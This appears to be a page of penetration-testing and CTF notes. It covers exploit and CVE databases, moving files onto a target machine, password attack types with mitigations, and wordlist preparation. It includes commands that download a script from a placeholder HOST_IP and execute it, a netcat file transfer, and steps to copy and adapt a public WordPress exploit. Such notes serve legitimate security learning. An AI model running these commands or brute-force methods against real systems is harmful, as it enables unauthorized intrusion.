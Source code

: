 # Exploitation

<hr class="sep-both">

## Vulnerabilities (CVE) databases

<div class="row row-cols-md-2"><div>

**General websites**

* ➡️ [exploit-db.com](https://www.exploit-db.com/), and the command [searchsploit](https://github.com/offensive-security/exploitdb) (7.5k ⭐). Useful to find exploits, and test them.

```bash
$ searchsploit WordPress wpDiscuz
[...]
WordPress Plugin wpDiscuz 7.0.4 - Remote C | php/webapps/49967.py
[...]
$ searchsploit -p 49967
[...]
Path: /usr/share/exploitdb/exploits/php/webapps/49967.py
[...]
$ cp /usr/share/exploitdb/exploits/php/webapps/49967.py /tmp/49967.py
$ # edit the exploit, and try to use it
```

* [nvd.nist.gov](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&search_type=all) / [full listing](https://nvd.nist.gov/vuln/full-listing): a reference 📌

* ➡️ [attackerkb.com](https://attackerkb.com/): community reviews on CVEs. There is a tool similar to searchsploit [akb-explorer](https://github.com/horshark/akb-explorer) (33⭐).

* [vulners](https://vulners.com/) (ex: [CVE-2016-1531](https://vulners.com/cve/CVE-2016-1531))) is a big search engines for vulnerabilities.

* [cvelist](https://github.com/CVEProject/cvelist): big Git with every CVE

* [inthewild](https://inthewild.io/) ([GitHub](https://github.com/gmatuz/inthewilddb))

</div><div>

* ➡️[CVE details](https://www.cvedetails.com/): interface easy to use

* [cve.circl.lu](https://cve.circl.lu/): quite readable, as they get to the point, with a readable interface

* [cve.mitre.org](https://cve.mitre.org/cve/), and their new website: [cve.org](https://www.cve.org/). This is basically a big list of CVEs, regardless of whether them being exploitable, or not.

* [security.snyk.io](https://security.snyk.io/): the interface is nicer,  through it's not as generic / covering as much CVEs as others.

* [rapid7.com](https://www.rapid7.com/db/): they give you ways to exploit CVE sometimes, such as the name of the Metasploit module...

<br>

**Specific to a product/platform**

* [microsoft.com](https://msrc.microsoft.com/update-guide/) (example: [CVE-2019-1388](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388)): for Microsoft CVEs

<br>

**Other**

* ➡️&nbsp; it's very useful to look for exploits/vulnerabilities on Google and GitHub. They are often **PoC** (Proof Of Concept) showing how to exploit a vulnerability. 
* ➡️&nbsp; There is this repository: [cve](https://github.com/trickest/cve) (3.8k ⭐) which aims to gather every CVE and their PoC.
</div></div>

<hr class="sep-both">

## Transfer files between two machines🛅

You will often have to send scripts to the target, or download files from the target.

<div class="row row-cols-md-2"><div>

**The most used: Python HTTP Server** 🐍

<i class="small">On the host where the file is:</i>

```bash
$ ls
file.sh file.ps1
$ python -m http.server port # port > 1023
$ sudo python -m http.server port # port <= 1023
```

<i class="small">On the client that need the file:</i>

```bash
# Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
$ chmod +x /tmp/script.sh;
$ /tmp/script.sh
# Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> . $Env:TMP/script.ps1; script
```
</div><div>

Of course, it doesn't work in every case.

* You may use copy-paste if available ✂️
* You may try with `python2`, and `python3`
* You may have to use `curl` or `iws` (Windows-only)

```bash
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

* You can use netcat 🌉

```bash
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
```

* You may use FTP/SCP/NFS... if applicable
</div></div>

<hr class="sep-both">

## Password attacks 🔐

<div class="row row-cols-md-2"><div>

There are 3 usual ways of carrying a password attack

* **Password Guessing**: based on knowledge of the target (birth year...)
* **Dictionary Attack**: test a list in which there may be the password
* **Brute Force Attack**: try every possibility (ex: incremental ASCII)
</div><div>

There are a few mitigations

* Block an IP after $n$ failed attempts within $x$ seconds

* Use a strong password policy

* Delay authentication attempts (throttle) to slow down attacks

* Use a CAPTCHA while taking into account that they are services to "bypass" them

* Use two-Factor authentication

</div></div>

<hr class="sl">

## 📃 Wordlists 📃

<div class="row row-cols-md-2 mt-3"><div>

There are two packages that are providing a lot of wordlists. Install, then use either command `wordlists` or `seclists` to move to the location where the wordlists are stored, and get the path of every wordlist.

* package seclists | [GitHub](https://github.com/danielmiessler/SecLists) (43k ⭐)
* package wordlists | [GitHub](https://github.com/drtychai/wordlists) (0.1k ⭐)

> **CTF are usually using `/usr/share/wordlists/rockyou.txt`** when there is a password to crack. If it's not inside, then it's likely that you're not supposed to use brute force.

### ➡️ Improving efficiency

As a "hacker", if there is a policy of "at least n characters/up to $m$ characters", then it would be very wise to filter shorter/longer values from your wordlists. For instance, with `rockyou.txt`

* `{n}`: only keep values having exactly $n$ characters
* `{n,}`: only keep values having more ($\ge$) than $n$ characters
* `{n,m}`: only keep values having between $[n,m]$ characters
* `{,m}`: only keep values having less ($\le$) than $m$ characters

```bash
# only keep 4 letters passwords
$ egrep '^.{4}$' /usr/share/wordlists/rockyou.txt > /tmp/4rock.lst
# which is the same as
$ grep '^....$' /usr/share/wordlists/rockyou.txt > /tmp/4rock.lst
```

As a reminder, you can also merge wordlists

```bash
$ cat wordlist1 wordlist2 wordlist3 > wordlist123
```
</div><div>

### ➡️ generate simple wordlists

There may be a case in which you want a wordlist such as numbers from 0 to 99, or every letter from A to Z. In both cases, I'm using [bash braces expansion](/operating-systems/linux/bash/index.md#braces-expansion) to generate the wordlist like this

```bash
$ echo {A..Z} | tr ' ' '\n' > AZ.lst
$ echo {0..99} | tr ' ' '\n' > 0_to_99.lst
$ echo user{0..9} | tr ' ' '\n' > user_0_to_99.lst
$ echo {admin,adm,user} | tr ' ' '\n' > simple_list.lst
```

### ➡️ package wordlist

<p class="mt-4">Passwords</p>

```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/dirb/others/best1050.txt
/usr/share/wordlists/dirb/others/best110.txt
/usr/share/wordlists/dirb/others/best15.txt
```

### ➡️ package seclists 📌

<p class="mt-4">

[Passwords](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
</p>

```
$ ls /usr/share/seclists/Passwords/
2020-200_most_used_passwords.txt
darkc0de.txt
darkweb2017-top10000.txt
$ ls /usr/share/seclists/Passwords/Common-Credentials
10k-most-common.txt
10-million-password-list-top-1000000.txt
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```

[Usernames](https://github.com/danielmiessler/SecLists/tree/master/Usernames)

```
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```
</div></div>